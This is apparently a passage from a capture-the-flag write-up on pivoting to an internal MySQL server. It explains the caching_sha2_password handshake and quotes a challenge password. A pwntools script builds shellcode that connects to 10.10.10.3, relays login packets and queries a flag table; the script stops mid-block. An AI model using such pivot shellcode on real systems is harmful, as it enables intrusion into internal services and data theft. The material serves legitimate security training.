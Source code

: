 I analyzed mysql protocol, but the number of packets which exchanged during above command was less than I thought.

1. Server Greeting
2. Login Request
3. Request Query

When you connect to mysql Server, Server replies with `Server Greeting` message. At this, you receive Server version, flag, chatset, hash salt, and etc.. mysql version was 8.0, and this version uses `caching_sha2_password` Authentication plugin by default.

Reply attack is prevented by `salt` at `Server Greeting`. So, you have to make a hash by mixing `salt` and password(`qp37RWf@@Ygvd@`). Password is written in `docker-compose.yml`.

How to use `salt` in mysql protocol can't be found easily at [official docs](https://dev.mysql.com/doc/), but you can use [PyMysql Source code](https://github.com/PyMySQL/PyMySQL/blob/main/pymysql/_auth.py).

Now we made the packet sets for login and Request Query (I skipped analyzing packet, it is for you.. 😊).

But, mysql isn't easy like that. It use encrypted channel through TLS and RSA Certificates. And `caching_sha2_password` plugin is forced to use the encrypted channel. So we have to add the secure feature our packet sets.

RSA Certificates was shorter, So I used it. Using `--get-server-public-key` option, you can analyze the packets added for Authentication. In implementing this, it is always good to refer to `PyMysql` Source.

```py
#!/usr/bin/env python3
from pwn import *
from PyMySQL.pymysql._auth import *

def sendPacket(length):
    code = shellcraft.read(0, 'rsp', 0x300)
    code += shellcraft.write(3, 'rsp', length)
    return code

def recvPacket():
    code = shellcraft.read(3, 'rsp', 0x200)
    code += shellcraft.write(1, 'rsp', 0x200)
    return code

context(arch='amd64', os='linux')
if args.REMOTE:
    p = remote('localhost', 9999)
else:
    p = process('./pivot', aslr=0)

login_1 = b'\xd5\x00\x00\x01\x8d\xa2\xbf\x19\x00\x00\x00\x01\x08\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00isitdtu\x00 '
login_2 = b'fl4g\x00caching_sha2_password\x00p\x04_pid\x0292\t_platform\x06x86_64\x03_os\x05Linux\x0c_client_name\x08libmysql\x07os_user\x04root\x0f_client_version\x068.0.34\x0cprogram_name\x05mysql'
request_pubkey_payload = b"\x01\x00\x00\x03\x02"
select_payload = b"\x23\x00\x00\x00\x03\x00\x01\x73\x65\x6c\x65\x63\x74\x20\x40\x40" \
b"\x76\x65\x72\x73\x69\x6f\x6e\x5f\x63\x6f\x6d\x6d\x65\x6e\x74\x20" \
b"\x6c\x69\x6d\x69\x74\x20\x31"
get_payload = b"\x18\x00\x00\x00\x03\x00\x01\x53\x45\x4c\x45\x43\x54\x20\x66\x6c" \
b"\x61\x67\x20\x46\x52\x4f\x4d\x20\x66\x6c\x34\x67"
login_payload_length = len(login_1) + 32 + len(login_2)

shellcode = shellcraft.connect('10.10.10.3', 3306)
shellcode += recvPacket()
shellcode += sendPacket(login_payload_length)
shellcode += recvPacket()
if args.AUTH:
```